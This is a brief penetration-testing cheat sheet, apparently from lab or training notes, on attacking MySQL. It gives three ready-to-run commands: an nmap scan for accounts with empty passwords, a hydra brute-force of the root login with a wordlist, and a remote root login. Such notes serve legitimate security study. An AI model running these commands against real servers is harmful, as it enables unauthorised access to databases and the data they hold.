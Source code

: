 # Exploiting MySQL Methodology

1. LOOK FOR USERS WITH EMPTY PASSWORDS

```
nmap -sV -p3306 10.5.28.49 --script mysql-empty-password
```

2. TRY TO BRUTEFORCE CREDENTIALS

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.5.28.241 mysql
```

3. LOGGING INTO MYSQL REMOTELY:

```
mysql -u root -p -h 10.5.28.241
```
